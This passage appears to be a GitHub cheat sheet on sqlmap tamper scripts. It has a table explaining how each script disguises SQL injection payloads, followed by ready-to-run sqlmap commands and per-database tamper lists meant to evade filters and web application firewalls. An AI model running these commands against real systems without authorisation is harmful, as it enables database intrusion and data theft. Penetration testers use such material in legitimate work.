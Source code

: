 |space2mssqlblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|space2mssqlhash.py | Replaces space character (' ') with a pound character ('#') followed by a new line ('\n') |
|space2mysqlblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|space2mysqldash.py | Replaces space character (' ') with a dash comment ('--') followed by a new line ('\n') |
|space2plus.py |  Replaces space character (' ') with plus ('+')  |
|space2randomblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|symboliclogical.py | Replaces AND and OR logical operators with their symbolic counterparts (&& and ||) |
|unionalltounion.py | Replaces UNION ALL SELECT with UNION SELECT |
|unmagicquotes.py | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work) |
|uppercase.py | Replaces each keyword character with upper case value 'INSERT'|
|varnish.py | Append a HTTP header 'X-originating-IP' |
|versionedkeywords.py | Encloses each non-function keyword with versioned MySQL comment |
|versionedmorekeywords.py | Encloses each keyword with versioned MySQL comment |
|xforwardedfor.py | Append a fake HTTP header 'X-Forwarded-For'|

# SQLMap Tamper Scripts (SQL Injection and WAF bypass) Tips
> Use and load all tamper scripts to evade filters and WAF :
~~~
sqlmap -u ‘http://www.site.com/search.cmd?form_state=1’ — level=5 — risk=3 -p ‘item1’ — tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
~~~
## General Tamper testing:
~~~
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
## MSSQL:
~~~
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
~~~
## MySQL:
~~~
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
~~~
## Here lists of sqlmap Tamper scripts with with explanation
### apostrophemask.py